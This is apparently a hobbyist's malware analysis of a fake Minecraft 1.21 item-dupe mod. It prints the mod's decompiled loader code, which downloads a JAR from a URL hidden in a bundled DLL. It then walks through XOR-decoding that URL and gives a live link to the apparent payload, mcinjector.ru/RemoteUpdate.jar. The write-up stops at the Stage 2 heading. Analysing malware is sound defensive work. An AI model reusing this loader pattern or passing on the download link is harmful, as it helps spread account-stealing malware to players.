

# Malware Analysis
## Background

i got this Malware from a friend who got hacked by it. 
The malware is disguised as a Minecraft Fabric mod to dupe items in the version 1.21.
after a day or so our base was gone and he had new "friends" on discord.
After noticing i asked him to send me the "Mod".

## Stage 1: The Minecraft Mod

After extracting the mod  
`$ unzip Malware.jar`

and looking whats there i found a suspicios dll called mysecret.dll.  
After looking into it further i also found that in [NewMod.class (Dumped)](./../assets/malware-analysis/stage1/unpacked/dev/majanito/NewMod.java)  
are some things i do **NOT** like

number one:
```
    private byte[] downloadJar(String urlString) throws Exception {
        URL url = new URL(urlString);
        HttpURLConnection conn = (HttpURLConnection)url.openConnection();
        conn.setRequestMethod("GET");
        try (InputStream in = conn.getInputStream();){
            byte[] byArray;
            try (ByteArrayOutputStream out = new ByteArrayOutputStream();){
                int n;
                byte[] buffer = new byte[8192];
                while ((n = in.read(buffer)) != -1) {
                    out.write(buffer, 0, n);
                }
                byArray = out.toByteArray();
            }
            return byArray;
        }
    }
```

which is called btw
`byte[] jarBytes = this.downloadJar(Secret.VALUE);`

---

and number two:
```
$ cfr Secret.class 
/*
 * Decompiled with CFR 0.152.
 */
package dev.majanito;

import dev.majanito.NativeUtils;

public class Secret {
    public static final String VALUE;

    private static native String loadSecret();

    static {
        String libPath = "/native/" + System.mapLibraryName("mysecret");
        NativeUtils.loadLibraryFromJar(libPath);
        VALUE = Secret.loadSecret();
    }
}
```
---
This brought me to the conclusion that the Mod Loads a .dll, mysecret.dll to be exact,
and Dowloads something from a link it returns.

---

### Stage 1.2, getting the download link


looking at the strings in the dll we dont see much,
the most notable beeing:  
`Java_dev_majanito_Secret_loadSecret`

dumping it with  
`objdump -d mysecret.dll`  
we get [this dump](./../assets/malware-analysis/stage1/dump.txt),
though we only care about the loadSecret function.

---

after looking at it in [binaryninja](https://binary.ninja/)
i saw this:  


The main thing i saw was this loop, it read data from the first 28 bytes  
of .rdata, and then XORs them with 0xBB (187).

After Dumping those bytes and Xoring them  
```  
$ objdump mysecret.dll -h | grep .rdata
  2 .rdata        000006a0  000000024d284000  000000024d284000  00001e00  2**4  

$ xxd -s 0x00001e00 -l 0x26 mysecret.dll 
00001e00: d3cf cfcb c881 9494 d6d8 d2d5 d1de d8cf  ................
00001e10: d4c9 95c9 ce94 e9de d6d4 cfde eecb dfda  ................
00001e20: cfde 95d1 dac9                           ......

$ python decrypt.py && cat output.bin
XORed data saved to output.bin
https://mcinjector.ru/RemoteUpdate.jar

```

[decrypt.py](./../assets/malware-analysis/stage1/decrypt.py)

we get a link to the to what its downloading  
[MALWARE](https://mcinjector.ru/RemoteUpdate.jar)

---

## Stage 2, RemoteUpdate.jar
